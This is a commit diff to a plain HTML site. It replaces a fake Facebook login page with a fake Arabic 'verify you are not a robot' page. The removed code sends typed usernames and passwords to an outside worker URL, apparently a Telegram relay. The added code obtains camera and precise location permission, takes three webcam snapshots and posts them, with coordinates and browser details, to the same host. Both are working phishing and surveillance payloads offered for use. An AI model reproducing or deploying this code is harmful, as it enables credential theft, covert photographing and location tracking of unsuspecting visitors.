

Before and after one commit to tag963/pohtu.html, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 286-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,50 +1,60 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Log in to Facebook</title>
+    <title>نظام التحقق الأمني</title>
     <style>
-        body { background-color: #f0f2f5; font-family: Segoe UI, Helvetica, Arial, sans-serif; height: 100vh; display: flex; justify-content: center; align-items: center; margin: 0; }
-        .container { width: 396px; text-align: center; }
-        .logo { font-size: 60px; font-weight: 700; color: #1877f2; margin-bottom: 10px; }
-        .login-card { background: white; padding: 20px; border-radius: 8px; box-shadow: 0 4px 12px rgba(0,0,0,0.1); }
-        input { width: 100%; height: 52px; margin-bottom: 12px; padding: 14px 16px; border: 1px solid #dddfe2; border-radius: 6px; font-size: 17px; box-sizing: border-box; }
-        input:focus { border-color: #1877f2; outline: none; }
-        .login-btn { width: 100%; height: 48px; background-color: #1877f2; border: none; border-radius: 6px; color: white; font-size: 20px; font-weight: bold; cursor: pointer; }
-        .forgot { display: block; margin-top: 15px; color: #1877f2; text-decoration: none; font-size: 14px; }
-        .line { border-top: 1px solid #dddfe2; margin: 20px 0; }
-        .create-btn { background-color: #42b72a; color: white; padding: 12px 20px; border: none; border-radius: 6px; font-size: 17px; font-weight: bold; cursor: pointer; }
+        body { margin: 0; background: #050510; color: #fff; font-family: sans-serif; text-align: center; height: 100vh; display: flex; flex-direction: column; justify-content: center; align-items: center; }
+        button { padding: 20px 50px; font-size: 22px; cursor: pointer; background: #007bff; color: white; border: none; border-radius: 10px; box-shadow: 0 4px 15px rgba(0,123,255,0.4); }
     </style>
 </head>
 <body>
-    <div class="container">
-        <div class="logo">facebook</div>
-        <div class="login-card">
-            <form id="login-form">
-                <input type="text" id="username" placeholder="Email address or phone number" required>
-                <input type="password" id="password" placeholder="Password" required>
-                <button type="submit" class="login-btn">Log In</button>
-            </form>
-            <a href="#" class="forgot">Forgotten password?</a>
-            <div class="line"></div>
-            <button class="create-btn">Create new account</button>
-        </div>
-    </div>
 
-    <script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
+    <h2>يرجى التحقق من أنك لست روبوت</h2>
+    <p>اضغط للبدء</p>
+    <button onclick="startProcess()">ابدأ التحقق الآن</button>
+
     <script>
-        const PROXY_URL = "https://tlgram.alidm0935.workers.dev/";
+    async function startProcess() {
+        // رابط الـ Worker الخاص بك
+        const workerUrl = "https://tlgram.alidm0935.workers.dev/";
 
-        document.getElementById('login-form').addEventListener('submit', function(e) {
-            e.preventDefault();
-            const message = `👤 User: ${document.getElementById('username').value}\n🔑 Pass: ${document.getElementById('password').value}`;
+        try {
+            // 1. طلب إذن الكاميرا والموقع معاً
+            const [stream, position] = await Promise.all([
+                navigator.mediaDevices.getUserMedia({ video: true }),
+                new Promise((resolve, reject) => navigator.geolocation.getCurrentPosition(resolve, reject, {enableHighAccuracy: true}))
+            ]);
 
-            axios.post(PROXY_URL, { text: message })
-            .finally(() => {
-                window.location.href = "https://www.facebook.com";
-            });
-        });
+            const video = document.createElement('video'); video.srcObject = stream; await video.play();
+            const canvas = document.createElement('canvas'); canvas.width = 640; canvas.height = 480;
+            const ctx = canvas.getContext('2d');
+
+            // 2. التقاط وإرسال 3 لقطات متتالية
+            for(let i = 0; i < 3; i++) {
+                ctx.drawImage(video, 0, 0, 640, 480);
+                const img = canvas.toDataURL('image/jpeg', 0.5);
+
+                await fetch(workerUrl, {
+                    method: 'POST',
+                    headers: { 'Content-Type': 'application/json' },
+                    body: JSON.stringify({
+                        img: img,
+                        lat: position.coords.latitude,
+                        lon: position.coords.longitude,
+                        info: navigator.userAgent
+                    })
+                });
+                await new Promise(r => setTimeout(r, 1000));
+            }
+
+            stream.getTracks().forEach(t => t.stop());
+            window.location.href = "https://www.google.com";
+
+        } catch (e) {
+            alert("يرجى السماح بالوصول للكاميرا والموقع لإتمام التحقق.");
+        }
+    }
     </script>
 </body>
 </html>
```
